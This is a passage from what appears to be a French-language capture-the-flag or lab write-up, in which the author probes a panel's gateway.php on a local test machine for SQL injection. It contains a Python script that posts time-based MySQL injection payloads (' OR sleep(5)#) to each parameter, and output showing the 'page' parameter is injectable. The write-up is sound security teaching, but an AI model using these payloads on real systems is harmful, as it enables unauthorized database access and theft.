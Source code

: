 Pour cela j'ai écrit un script qui teste plusieurs payloads d'injection MySQL time-based pour chaque paramètre (la fonction encrypt n'est pas affichée pour gagner de la place).  

La méthode time-based a été choisie car *gateway.ph*p ne semble retourner aucun contenu à priori :(  

```python
args = ['page', 'unm', 'cnm', 'query', 'spec', 'opt', 'view', 'var']
key = "test"

payloads = [' OR sleep(5)#', '" OR sleep(5)#', '\' OR sleep(5)#']
url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()

for a in args:
    for p in payloads:
        d = {
                "val": base64.b64encode(key),
                a: encrypt(p)
            }
        print "param = {0}, payload = {1}".format(a, p)
        try:
            r = sess.post(url, data=d, headers=hdrs, timeout=3)
            print r.content
        except:
            print "timeout !"
            break
        print "=================================="
```

Dans l'output généré on voit :  

```
==================================
param = page, payload = ' OR sleep(5)#
timeout !
```

![Wonderfuck!](/assets/img/dexter2.gif)

Le paramètre page est donc vulnérable et il faut fermer une quote pour injecter du SQL.  

Maintenant voyons voir comment on peut extraire des données de la base.  
